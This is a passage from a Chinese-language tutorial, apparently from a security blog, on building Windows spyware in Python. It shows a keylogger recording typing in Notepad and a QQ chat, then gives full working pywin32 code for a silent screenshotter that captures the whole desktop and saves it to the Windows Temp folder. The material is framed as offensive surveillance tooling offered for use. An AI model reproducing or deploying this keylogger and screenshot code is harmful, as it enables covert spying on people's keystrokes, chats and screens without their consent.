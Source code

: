 【知识点】钩子(Hook)：Windows消息处理机制的一个平台,应用程序可以在上面设置子程以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。

撸代码时一定要注意严格区分大小写。检查无误后启动keylogger：

![enter image description here](http://drops.javaweb.org/uploads/images/038fcfc485c7270e69c61a31fdc3dd99f304e0f6.jpg)

然后可以尝试打开记事本写点东西，过程中可以看到我们的keylogger窗口正在对我们的输入实时记录：

![enter image description here](http://drops.javaweb.org/uploads/images/949833cafb8299baa7c01f6f19d6b5346adb9bcf.jpg)

切换窗口时会自动跟踪到新窗口（众：这点功能都没有还敢叫keylogger吗！），light教授趁机骚扰一下疯狗，可以看到我们的keylogger已经跟踪到QQ聊天窗口，并忠实的记录下我输入的一切。

![enter image description here](http://drops.javaweb.org/uploads/images/98d0e7a6f6263f39c54119198f1d0e4149c5cbe3.jpg)

0x02 看看你在干什么：编写一个screenshotter
==============================

* * *

截屏实现起来更简单，直接调用几个gui相关的api即可，我们直接看代码：

```
# -*- coding: utf-8 -*-  
import win32gui
import win32ui
import win32con
import win32api

# 获取桌面
hdesktop = win32gui.GetDesktopWindow()

# 分辨率适应
width = win32api.GetSystemMetrics(win32con.SM_CXVIRTUALSCREEN)
height = win32api.GetSystemMetrics(win32con.SM_CYVIRTUALSCREEN)
left = win32api.GetSystemMetrics(win32con.SM_XVIRTUALSCREEN)
top = win32api.GetSystemMetrics(win32con.SM_YVIRTUALSCREEN)

# 创建设备描述表
desktop_dc = win32gui.GetWindowDC(hdesktop)
img_dc = win32ui.CreateDCFromHandle(desktop_dc)

# 创建一个内存设备描述表
mem_dc = img_dc.CreateCompatibleDC()

# 创建位图对象
screenshot = win32ui.CreateBitmap()
screenshot.CreateCompatibleBitmap(img_dc, width, height)
mem_dc.SelectObject(screenshot)

# 截图至内存设备描述表
mem_dc.BitBlt((0, 0), (width, height), img_dc, (left, top), win32con.SRCCOPY)

# 将截图保存到文件中
screenshot.SaveBitmapFile(mem_dc, 'c:\\WINDOWS\\Temp\\screenshot.bmp')

# 内存释放
mem_dc.DeleteDC()
win32gui.DeleteObject(screenshot.GetHandle())

```
